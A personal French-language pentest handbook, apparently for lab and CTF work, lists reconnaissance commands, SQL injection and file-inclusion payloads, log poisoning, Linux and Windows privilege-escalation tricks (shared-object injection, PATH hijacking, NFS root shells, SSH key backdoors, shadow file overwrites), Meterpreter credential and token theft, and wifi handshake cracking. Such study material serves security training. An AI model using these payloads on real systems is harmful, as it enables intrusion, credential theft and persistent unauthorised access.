

___
# Manuel de pentest 

Le manuel suivant est personnel est établit dans le but d'avoir une ressource d'aide durant les tests d'intrusions effectués. 
Toutes les opérations d'éthical hacking ont toujours été faites à but éducatif sur des environnements dédiés.

___
# Informations en vrac :

* Chemin des wordlist : `/usr/share/wordlist`.
* Liste des shells : 
    1. (kali) `/usr/share/webshell`, 
    2. http://pentestmonkey.net/
* Liste des exploits exploitdb : `/usr/share/exploitdb/exploits`. 

* Identification d'un hash : 
    1. (linux) `hash-identifier` : identifier un hash
    2. https://gchq.github.io/CyberChef/ : identifier un hash (2)(voir Magic operation) 

___
# 01 : Reconnaissance / énumération.


* `nmap -sV -a -p- -sS [ip]` : lister les ports, numéro de version, OS
```
-sV : versions logicielles ;
-a : all ;
-p- lister tous les ports
-sS force un scan rapide, pas freiné par le fw, discret (il ne finit pas les connexions TCP)
-T4 : scan agressif afin de diminuer son délai

```
* `searchsploit [nom_service]` : chercher s'il existe des failles connues du service avec son numéro de version
Sinon, sur un navigateur web : `exploitdb`


## **Service ouvert : web - 80**

* `nikto -h [url]` : scanner web

* `dirb [url] [wordlist] -X .ext1,.ext2,.ext3` : arborescence du site web à partir de la wordlist
**Si pas d'extension, bruteforce récursif de directory.**

* `gobuster dir -u [url] -w [wordlist] -x [extensions] ` : idem
Extensions importantes : `php,html,zip,txt,log,back`.

* ` cewl [url] ` : fais une wordlist de tous les mots trouvés sur le site web

<center>

HTTPS Status Codes :




</center>

## **Service ouvert : samba (linux) / smb (windows) - 139,445**

Samba est l'implémentation Unix du protocole SMB. <br>

* Scan d'utilisateurs et de partage : `nmap -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse [ip] `
* Scan de vulnérabilités courantes : `nmap -p 139,445 --script=smb-vuln-* [ip]` 
* Pour se connecter à un partage : `smbclient //[ip]/[nom_du_partage]`
* Pour télécharger le contenu d'un partage : `smbget -R //[ip]/[nom_du_partage]`
* Pour se connecter en tant que user dans un groupe (le groupe n'est pas indispensable) : `smbclient -U GROUP/USER //[ip]` 

## **Service ouvert : RPCbind - 111**

* RPCbind : service qui agit comme un annuaire entre les services RPC et leur port d'écoute.
* Utilisé pour lister les systèmes de fichiers qui sont montés par NFS : `nmap -p 111 --script = nfs-ls, nfs-showmount,nfs-statfs [ip]`.
`rpcinfo -p [ip]` : liste tous les services RPC. 

## **Service ouvert : FTP - 21**

https://book.hacktricks.xyz/pentesting/pentesting-ftp


___
# **02 : Exploitation**


## **1) Reverse shell**

* `nc -lvp [port]`
* `pwncat -lp [port]` : https://github.com/calebstewart/pwncat 

https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## **2) Local/Remote File Inclusion (LFI / RFI)**

Cette vulnérabilité survient lorsqu’une application web permet au client de soumettre des entrées dans des fichiers ou d’uploader des fichiers sur le serveur.

* LFI : `http://pagevulnerable.com?page=page.php
=> http://pagevulnerable.com?page=../../etc/password `
* RFI : `http://pagevulnerable.com?page=page.php
=>http://pagevulnerable.com?page=http://google.com` 

* Outil pour bruteforce une LFI/RFI : `wfuzz` (bruteforce de paramètre get). <br> 
Exemple : `wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://[ip]?get_param_name=FUZZ`.
Ici on bruteforce le paramètre `get_param_name`.

**Tips pour les techniques de file intrusion :**
* Sur linux, la racine d'un site web est `/var/www/html`.
* On peut remonter autant de fois `../../../../` que l'on veut.
* `%00` est le caractère nul de fin de chaîne en php
* utilisation des wrappers (expect, input) tels que `pageweb.com/?
view=php:expect//.......`

**Log poisonning** : sur les serveurs apache, le fichier `/var/log/apache2/access.log` contient une liste de toutes les requêtes effectuées sur le serveur, dont le user-agent de celles-ci. Le but va d'être d'insérer un reverse shell dans ce user agent, qui sera exécuté lorsqu'on demandera d'afficher le fichier `access.log` grâce à la LFI. 
Sous firefox : Inspect element -> network -> edit & resend -> dans les headers, sur la ligne du user agent : `<?php reverse_shell ?>`.

* Sources : https://blog.clever-age.com/fr/tag/local-file-inclusion/
* CheatSheet : https://highon.coffee/blog/lfi-cheat-sheet/ 

## **3) File upload**
L'application permet à l'utilisateur d'upload un fichier sur leur serveur. 

Cheatsheet : 
* https://github.com/pascal-sun/file-upload
* https://book.hacktricks.xyz/pentesting-web/file-upload


## **4) Bruteforce**

* `hydra -l user -P pass.txt [ip] [protocole] (si web : "/cheminlogin.php:[user_input_name]=^USER^[pass_input_name]=^PASS^:[message_login_fail]") ` : outil de bruteforce (ssh,http,ftp,smb...)

## **5) Injection SQL**

Une injection SQL pose 4 types de problème : 
1. Confidentialité : accès à des données sensibles.
2. Authentification : connexion à un compte tiers.
3. Autorisation : élévations de priviléges, changement de droits.
4. Intégrité : changement ou suppression d'informations sensibles.

Il existe plusieurs type de serveurs SQL : 
* SQL Server (Windows and .NET)
* MySQL (Linux and Python/Php/Java)
* Oracle 

Les injections SQL peuvent être classifiée en 3 catégories : 

### **1) Injection in-band**

Le plus commun et facile à exploiter : l'attaquant utilise le même canal pour lancer l'attaque et recueillir les résultats.

1. Injection SQL **UNION** : permet d'extraire des données sur d'autres tables. 
    * Exemple : SELECT a, b FROM table1 UNION SELECT c, d FROM table2
    * Les deux requêtes doivent retourner le même nombre de colonnes, et les données doivent être du même types (type(a) = type(c) ; type(b) = type(d)).
    * Pour déterminer le nombre de colonnes retournée par la requête :
        1. Injecter une série de `ORDER BY X` en incrémentant `X` jusqu'à ce qu'une erreur apparaît : 
        ```
        ' ORDER BY 1--
        ' ORDER BY 2--
        ' ORDER BY 3--
        ```
        2. Injecter une série de `UNION SELECT NULL` avec le même principe : 
        ```
        ' UNION SELECT NULL--
        ' UNION SELECT NULL,NULL--
        ' UNION SELECT NULL,NULL,NULL--
    * Pour déterminer le type d'une des colonnes de la table (en ayant au préalable déterminer le nombre de colonnes) : 
        ```
        ' UNION SELECT 'a',NULL,NULL,NULL--
        ' UNION SELECT NULL,'a',NULL,NULL--
        ' UNION SELECT NULL,NULL,'a',NULL--
        ' UNION SELECT NULL,NULL,NULL,'a'--
        ```
        Dans ce cas de figure, on cherche une string ('a') : si un message d'erreur de conversion impossible apparaît, la colonne n'est pas du type testé.
    * Pour retrouver la valeur cherchée (en ayant au préalable déterminer le nombre de colonne et le type du champ testé), en supposant qu'on cherche les champs username et password de la table users : 
    `' UNION SELECT username, password FROM users--.`
    * Dans le cas où la requête ne renvoie qu'une valeur, pour concaténer : `' UNION SELECT username || '~' || password FROM users--`.

2. Injection SQL **ERROR-BASED** : injection de commandes erronnées qui permet d'obtenir des informations sur la structure du serveur à cause de message d'erreur trop verbeux. 

* https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/Error%20Based%20SQLi/README.md 

### **2) Injection inférentielle (blind)** 

Aucune donnée n'est transférée entre le serveur et le client, et le client n'a aucun moyen de voir le résultat de sa requête. Ainsi, l'attaquant est capable de recueillir des informations en envoyant son payload et en analysant le comportement du serveur.

3. Injection SQL **TIME-BASED** : utilisé quand il n'y a pas d'autre moyen de tester si un champ est vulnérable, ou quand on a pas de retour sur la requête. Si la requête prend du temps -> vulnérable.

4. Injection SQL **BOOLEAN-BASED (CONTENT-BASED)** : repose sur l'envoie d'une requête qui oblige l'application à renvoyer un résultat différent si le résultat de cette requête est vraie ou faux.

### **3) Injection out-band** 

Plutôt rare car cela dépend des fonctionnalités activées de la bdd utilisées par l'application web. L'attaquant n'utilise pas le même canal pour lancer l'attaque et recueillir les résultats. 


Ressources : 

* https://hackersonlineclub.com/sql-injection-cheatsheet/
* https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
* https://portswigger.net/web-security/sql-injection/cheat-sheet
* https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
* https://owasp.org/www-community/attacks/SQL_Injection
* https://www.acunetix.com/websitesecurity/sql-injection2/

## **Injection template Java**

Explication : 
* https://portswigger.net/research/server-side-template-injection

Cheatsheet :
* https://0x1.gitlab.io/web-security/Server-Side-Template-Injection/#freemarker

___
# 03.1 : Privilege escalation - LINUX 

**SUDO, CRON, PROCESSUS, SUID** 

## **1) Sudo**

* `sudo -l ` : lister les commandes autorisées et interdites par l'utilisateur courant.
* `sudo -u toto [cmd]` : permet de lancer la commande [cmd] en tant que toto
* `su - [user] ` : permet de se connecter en tant que user

## **2) Cron**

* Crontab : **CRON** est un programme qui permet d'exécuter automatiquement des scripts
    1. `crontab -l` pour lister les crontab du user en cours.
    2. `cat /etc/crontab`

## **3) Processus**

* `ps -aux` : lister les processus courant pour repérer si des process ont été lancés avec root par exemple.

## **4) SUID/SGID**

* GTFOBins : liste d'exécutable linux pouvant être exploité.
Lien du site : `https://gtfobins.github.io/`.

Fichiers qui s'exécutent avec les droits root.

* /!\ 2 possibilités :  /!\
1. On a le password user et le bit s suffit.
2. On a pas le password user => il faut que le fichier soit exécutable.


* `find / -perm /4000[OÙ -u=s] 2>/dev/null ` : trouve les fichiers ayant une permission (si on ajoute le `-`, au moins égale) égale à `u=s` ie user=sudo. Donc cherche les fichiers root que l'on peut exécuter.

* Shared object injection : Lorsqu'un binaire SUID charge un fichier objet (.o) que l'on peut réécrire : 
    ```
    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {
        setuid(0);
        system("/bin/bash -p");
    }

    Compilation : gcc -shared -fPIC -o foo.o foo.c

    ```
    Pour chercher les appels d'un fichier binaires : 
    `strace fic 2>&1 | grep -iE "open|access|no such file"`

* Variables d'environnements : Si un programme exécuté par root lance des binaires avec un chemin non absolu (/usr/bin/echo = absolu, echo = relatif), on peut détourner son utilisation comme suit  :
    ```
    echo /bin/bash > [commande_effectuée_par_le_programme_exploitable] //redéfinition de la commande
    chmod 777 [fichier_créé_par_la_commande_précédente]
    export PATH=[dossier_courant_absolu]:$PATH //on rajoute notre dossier à $PATH afin que le programme aille chercher si la commande existe dans le répertoire où on est .

    ```
    Pour chercher les chaînes dans un exécutable : 
    `strings fic` 

* Abusing shell features : si un programme est exécuté avec son chemin absolu ET 
que la version de bash est inférieure à 4.2-048 (`/bin/bash --version`), on peut définir une
fonction bash avec le nom absolu de l'exécutable.

    ```
    function /usr/bin/foo {/bin/bash -p}
    export -f /usr/bin/foo

    ```
* Abusing shell features (2) : Version de bash inférieure à 4.4. Mode débugage avec la variable d'env. PS4 sur un fichier foo.
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' foo` 

## **Scripts automatisés**

* Scripts PEAS : https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS.
* Script kernel : https://github.com/jondonas/linux-exploit-suggester-2

## **NFS (Network File System)**
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* Définition : Protocole qui permet à un ordinateur d'accéder à des fichiers sur une machine distante.
Monter un NFS sur sa machine permet à d'autres utilisateurs d'accéder au FS (fichiers) de cette machine.
Pour voir les informations d'un serveur nfs : `showmount -e [ip]`

Fichier de configuration NFS : `cat /etc/exports`.
Si dans le dossier indiqué on a l'option `no_root_squash`, cela signifie que la machine sur la quelle le repertoire est monté (kali) a les droits de root sur le répertoire. 
Exemple avec `/tmp * (no_root_squash)` : 

```
[On kali]
sudo su 
mkdir /tmp/nfs
mount -o rw,vers=2 [ip_machine_vulnérable]:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -p /tmp/nfs/shell.elf 
chmod +xs /tmp/nfs/shell.elf
[On victim]
/tmp/shell.elf
```

## **Kernel exploit**

* Dirtycow est une vulnérabilité du noyau linux.
Lien git : `https://github.com/dirtycow/dirtycow.github.io`.

## **Variables d'environnements**

`sudo -l` affiche la liste des variables d'environnements sur la première ligne.

*Pour que ce genre d'attaque fonctionne il faut qu'une des variables suivantes
soit active et qu'au moins un programme soit exécutable en sudo.*
* `env_keep += LD_PRELOAD` est vulnérable car elle permet de charger des objets avant l'appel de certains programmes.
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
* `env_keep += LD_LIBRARY_PATH` est vulnérable car elle fournit une liste de répertoires où les librairies sont chargées en premier.
https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/


## **Escape from Docker**

* Docker container escape privesc : https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

## **Wildcard (*) exploitation**

Si une commande est exécutée avec `*` comme paramètre => exploitable.
Création de fichier correspondant aux paramètres de la commande exploitable.
Exemple : `tar [archive.tar.gz] *` 
=> `tar [archive.tar.gz] --checkpoint=1 --checkpoint-action=exec=shell.elf`


## **John the Ripper**
* Si les fichiers /etc/password et /etc/shadow sont readable : 
    ```
    unshadow password.txt shadow.txt > passwords.txt
    john --wordlist=[wordlist] passwords.txt
    john --show passwords.txt
    ```

## **SSH backdoor**

Sur la machine cible : 
* ssh-keygen
* cat id_rsa.pub >> authorized_keys

Sur kali :
* ssh -i id_rsa 

OU 

Ajouter notre clé publique root au fichier authorized_keys de la machine cible 

Documentation THM : https://tryhackme.com/room/linuxprivesc

## **Autres**

* Si `/etc/shadow` est autorisé en écriture : `mkpasswd -m sha-512 [new_root_password]` => insérer le résultat dans la deuxième colonne de `/etc/shadow`
* Si `/etc/passwd` est autorisé en écriture : `openssl passwd [new_root_passord]` => insérer le résultat dans la deuxième colonne de `/etc/passwd`
* Le mot de passe de la session pourrait être contenu dans : 
    1. Un fichier de configuration `/etc/..`
    2. L'historique des commandes `cat ~/.*history`

* Il est possible que la clé id_rsa du root dans `/root/.ssh` soit en lecture.

___
# 03.2 : Privilege escalation - WINDOWS 


## **Commandes utiles**

* `sysinfo` : infos système (voir hotfix)
* `net user` : liste des utilisateurs 
* `whoami /priv` : privilèges de l'utilisateur (défaut : vagrant)
* `whoami /groups` : groupes de l'utilisateur (défaut : everyone)
* `whoami /all` : toutes les infos de l'utilisateur
* `hostname` : nom de l'ordinateur
* `tasklist` : liste des processus


## **METASPLOIT**

### **1) MSFConsole**
* `msfconsole` : run
* `search [service]`: chercher vulns d'un service
* Configuration : 
```
use exploit [exploit] (pour une vulnérabilité précise)
set payload [payload]
set RHOSTS [ip cible] 
set RPORT [port cible]
run
```
* Liste des exploits favoris : 
    1. ms08_067_netapi
* `show options` : affiche les options
* `sessions` : affiche les sessions
* `set SESSION 1` : affecte les paramètres courant à la session 1


### **2) Meterpreter**

* `sysinfo` : infos système
* `getuid` : info user courant
* `upload [chemin_fichier_sur_linux]`
* `getprivs` : privilèges 
* `shell` : shell
* `hashdump` : équivalent à /etc/shadow
* Module meterpreter d'usurpation de token : 
```
use incognito : charge le module
help : aide
list_tokens -u : liste les tokens
impersonate_token (/!\ 2 backslashes) : vol de token

```

### **3) Vulnérabilités connues**

* `MS16-032` : attaque d'usurpation de token
* `MS16-075 -> rottenpotteto.exe` : générer le token admin

## **Scripts automatisés**

* Script PEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS 
* Enum4Linux : https://github.com/cddmp/enum4linux-ng 
<br> *A lancer sur kali.*
* Script exploit suggester : https://github.com/AonCyberLabs/Windows-Exploit-Suggester
<br> *A lancer sur kali.*

___
# Bruteforce de réseau wifi

Le **mode moniteur** permet à un ordinateur équipé d'une carte réseau Wi-Fi d'écouter tout le trafic d'un réseau sans fil. À la différence du mode promiscuous, qui est aussi utilisé pour sniffer un réseau, le mode moniteur permet aux paquets d'être capturés sans avoir besoin de s'enregistrer sur un point d'accès (AP) ou réseau ad hoc. Le mode moniteur n'existe que sur les réseaux sans fil, tandis que le mode promiscuous peut être utilisé à la fois sur les réseaux filaires et sans fil. 

* kill tous les process qui pourrait empêcher de passer en monitor : `airmon-ng check kill` 
* passage en mode monitor : `airmon-ng start wlan0` ou ` ifconfig wlan0 down ; iwconfig wlan0 mode monitor ; ifconfig wlan0 up `
* capture de tous les AP à proximité : `airodump-ng wlan0`
* voir tous les flux d'un AP avec ses hôtes : `airodump-ng -c [channel] --bssid [bssid_ap] -w output wlan0`
* déconnecter un hôte pour récupérer handshake : `aireplay-ng -0 1 -a [bssid_ap] -c [bssid_hôte] wlan0`
* bruteforce du fichier de handshake : `crunch [min] [max] [caractères_testés] | aircrack-ng -w- -b  [bssid_ap] *.cap`

**Autre moyen :** utiliser `fern` sur kali linux, etthercap ?
___

# Sténographie

La sténographie est l'art de la dissimulation. 
Les outils ci dessous permettent d'afficher des données cachées, méta données, etc. sur des fichiers.
Pour afficher une image : `eog [img]`

* afficher toutes les strings d'un fichier (img,binaire) : `strings [fic]`
* analyser les méta données d'une image : `exiftools`
* analyser les méta données d'un fichier : `file [fic]`
* outil de sténographie pour cacher/extraires des données `jpeg,bmp,wav,au`:
    1. `steghide info [fic]`: affiche des infos 
    2. `steghide extract -sf [fic]` : extrait des données cachées
* outil qui récupère un fichier basé sur ses headers/footers/structure de donnée `png` : `foremost -i [ficroot]`


Sources : https://0xrick.github.io/lists/stego/

___
# Outils les plus utilisés Kali linux 

* `nmap` : analyse d'un hôte 
* `lynis` : détection de vulnérabilité
* `wpscan` : analyse de site wordpress
* `wireshark` : analyse d'une interface réseau
* `metasploit` : framework de test de pénétration
* `burpsuite` ou `zap`: proxy non intrusif
* `sqlmap` : test d'injection sql 


